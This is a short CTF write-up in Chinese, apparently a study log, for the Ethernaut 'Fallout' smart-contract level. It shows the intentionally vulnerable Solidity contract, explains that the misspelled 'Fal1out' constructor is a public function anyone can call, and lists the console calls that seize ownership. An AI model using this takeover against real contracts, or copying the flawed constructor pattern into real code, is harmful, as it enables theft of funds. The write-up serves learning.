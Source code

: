 A-Ethernaut-CTF
------------------------

Day3 2024.08.31

Fallout
------------------------
題目：

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
  
  ```

解題：
  感覺他是叫我取得權限去破解 owner


看了合約：
-------
  原本 /* constructor */ 的位子是一個 function Fal1out()，但是這個 function 並不是 constructor，然後他是 public 的，所以我可以呼叫這個 function 來變更 owner 的權限

  ```solidity
      function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
  ```
-------

過程：
```solidity
 await contract.owner()
 await contract.Fal1out({value:toWei('0.00001')})
 await contract.owner()
```

這樣就可以變更 owner 的權限了

![](./images/3-1.png)
